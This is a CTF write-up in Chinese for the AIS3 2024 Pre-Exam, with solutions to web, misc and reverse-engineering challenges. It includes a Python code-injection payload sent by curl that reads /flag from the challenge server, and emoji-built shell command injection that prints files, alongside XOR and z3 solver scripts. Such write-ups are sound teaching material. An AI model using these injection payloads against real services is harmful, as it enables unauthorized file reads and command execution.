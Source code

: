 ```yaml
---
title: AIS3 2024 Pre-Exam Writeup
date: 2024-06-08 20:43:15
tags: ['CTF']
categories: ['比賽']
description: AIS3 2024 Pre-Exam 解題記錄
---
```


## Web

### Evil Calculator 

後端只有擋空格與底線使用open function即可bypass

```bash
curl --header "Content-Type: application/json" \
  --request POST \
  --data "@payload" \
  http://chals1.ais3.org:5001/calculate
```

payload
```json
{
    "expression": "open('/flag').read()"
}
```
flag: `AIS3{7RiANG13_5NAK3_I5_50_3Vi1}`

## Misc

### Three Dimensional Secret 

pcapng檔後段有給3DP用的Marlin G-code
丟給Cura或Online G-code Viewer會得到如下圖之結果

![image](./decompile.png)
flag: `AIS3{b4d1y_tun3d_PriN73r}`

### Emoji Console 

每一個emoji對應一組符號 利用🐱 ⭐可組合出`cat *`將後端原始碼印出
搭配對照表利用💿 🚩😓😑 🐱 ⭐湊成`cd flag;/:| cat *`輸出`flag-printer.py`

```py
#flag-printer.py

print(open('/flag','r').read())
```

將後半段替換成🐍 ⭐(`cd flag;/:| python *`) 🉐 flag
flag: `AIS3{🫵🪡🉐🤙🤙🤙👉👉🚩👈👈}`

## Reverse

### The Long Print

依照decompile的結果去除delay的部分照寫一遍即可解出flag

![image](./gcode.png)

```python
secret = b'\x46\x41\x4b\x45\x0b\x00\x00\x00\x7b\x68\x6f\x6f\x0a\x00\x00\x00\x72\x61\x79\x5f\x02\x00\x00\x00\x73\x74\x72\x69\x08\x00\x00\x00\x6e\x67\x73\x5f\x06\x00\x00\x00\x69\x73\x5f\x61\x05\x00\x00\x00\x6c\x77\x61\x79\x07\x00\x00\x00\x73\x5f\x61\x6e\x04\x00\x00\x00\x5f\x75\x73\x65\x09\x00\x00\x00\x66\x75\x6c\x5f\x00\x00\x00\x00\x63\x6f\x6d\x6d\x01\x00\x00\x00\x61\x6e\x7a\x7d\x03\x00\x00\x00'

key = b'\x01\x10\x01\x3a\x0d\x1b\x4c\x4c\x2d\x00\x0b\x3a\x40\x4f\x45\x00\x1a\x32\x04\x31\x1d\x16\x2d\x3e\x31\x0a\x12\x2c\x03\x11\x3e\x0d\x2c\x00\x1a\x0c\x32\x14\x1d\x04\x00\x31\x00\x1a\x07\x08\x18'

secret_list = []
key_list = []

for i in range(0, len(secret), 4):
    secret_list.append(int.from_bytes(secret[i:i+4], "little"))
for i in range(0, len(key), 4):
    key_list.append(int.from_bytes(key[i:i+4], "little"))

flag = ""

mask = (1 << 8) - 1

for i in range(0, 24, 2):
    chunk = key_list[secret_list[i+1]] ^ secret_list[i]
    for j in range(4):
        flag += chr((chunk >> (j * 8)) & mask)
print(flag)
```

flag: `AISE{You_are_the_master_of_time_management!!!!?}`

### 火拳のエース 

輸入字串在經過`xor_strings` function後讓每個buffer的字元用以下`complex_function`內的運算進行處理後再與設定之密文進行比較

![image](https://hackmd.io/_uploads/BJG5pGMV0.png)

可利用z3求解如下所示

```python
from z3 import *

index = []
index.append([i for i in range(8)])
index.append([i + 0x20 for i in range(8)])
index.append([i + 0x40 for i in range(8)])
index.append([i + 0x60 for i in range(8)])

key = []
key.append(b'\x0e\x0d\x7d\x06\x0f\x17\x76\x04')
key.append(b'\x6d\x00\x1b\x7c\x6c\x13\x62\x11')
key.append(b'\x1e\x7e\x06\x13\x07\x66\x0e\x71')
key.append(b'\x17\x14\x1d\x70\x79\x67\x74\x33')

secret = []
secret.append("DHLIYJEG")
secret.append("MZRERYND")
secret.append("RUYODBAH")
secret.append("BKEMPBRE")

for ind, k, sec in zip(index, key, secret):
    result = []
    for i, c in enumerate(sec):
        x = Int("x")
        s = Solver()
        s.add(x > 0x40, x < 0x5b)
        offset = ord(c) - 0x41
        ivar = ind[i] % 3 + 3
        if ind[i] % 3 == 0:
            s.add((((x - 0x41 + ind[i] * 0x11) % 0x1a) * ivar + 7) % \
                  0x1a == offset)
        elif ind[i] % 3 == 1:
            s.add((ivar * 2 + ((x - 0x41 + ind[i] * 0x11) % 0x1a)) % \
                  0x1a == offset)
        elif ind[i] % 3 == 2:
            s.add(((((x - 0x41 + ind[i] * 0x11) % 0x1a) - ivar) + 0x1a) % \
                  0x1a == offset)
        s.check()
        m = s.model()
        result.append(m[x].as_long())
        # print(m[x].as_long())
    
    for i, r in enumerate(result):
        print(chr(k[i] ^ r), end="")
print()

```

flag: `AIS3{G0D_D4MN_4N9R_15_5UP3R_P0W3RFU1!!!}`
